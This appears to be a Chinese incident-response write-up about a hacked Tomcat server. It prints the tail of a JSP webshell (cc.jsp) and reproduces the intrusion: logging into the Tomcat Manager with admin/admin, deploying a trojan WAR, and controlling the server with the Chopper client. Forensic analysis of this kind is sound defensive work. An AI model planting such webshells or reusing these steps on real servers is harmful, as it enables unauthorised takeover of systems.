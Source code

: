 ```
		} else if (Z.equals("O")) {
			OO(z1, sb);
		} else if (Z.equals("P")) {
			PP(z1, sb);
		} else if (Z.equals("Q")) {
			QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\", "/")+"images/");
		}
	} catch (Exception e) {
		sb.append("ERROR" + ":// " + e.toString());
	}
	sb.append("|" + "<-");
	out.print(sb.toString());
%>
```



##### 三、分析问题

1、攻击者在webapps文件夹下上传了一个no3.war文件，并创建了包含cc.jsp木马文件的no3 文件夹，首先应找到上传的方式和路径。查看下网站，发现网站是采用的Tomcat容器。

![Tomcat](https://upload-images.jianshu.io/upload_images/6956152-1f59c1b2e061c88e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


2、进一步的思路是排查Tomcat本身的漏洞，查看Tomcat的配置文件tomcat-users.xml，发现Manager APP管理员弱口令。

![弱口令](https://upload-images.jianshu.io/upload_images/6956152-4529f8760270e55a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


3、可能的攻击思路是，通过Tomcat弱口令漏洞上传war格式的木马文件。

##### 四、漏洞复现

1、通过admin/admin弱口令登录http://x.x.x.x/的Manager App功能。

![Manager App](https://upload-images.jianshu.io/upload_images/6956152-650649d85940d495.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


2、然后找到WAR file to depoly功能，上传一个包含了木马的Tomcat WAR包。WAR包类似于一个网站的压缩包文件，可以在WAR包里构造好自己的木马，然后传至服务器。

![WAR file to depoly](https://upload-images.jianshu.io/upload_images/6956152-83c6d857977b24d1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



3、在这里测试上传了一个goodwin.war文件（war里边包含了一个木马文件cc.jsp），上传成功之后在服务器的网站根目录下会自动解压生成一个goodwin的文件夹。而木马文件cc.jsp就在goodwin文件夹内。

![goodwin](https://upload-images.jianshu.io/upload_images/6956152-81280144702acc97.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


4、祭出菜刀神器，添加并连接刚才上传的木马文件地址，密码023。

![菜刀](https://upload-images.jianshu.io/upload_images/6956152-eaa1889924a255fa.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


5、然后打开文件管理功能，发现我们已经获得了服务器权限，并可以访问服务器上的所有文件。
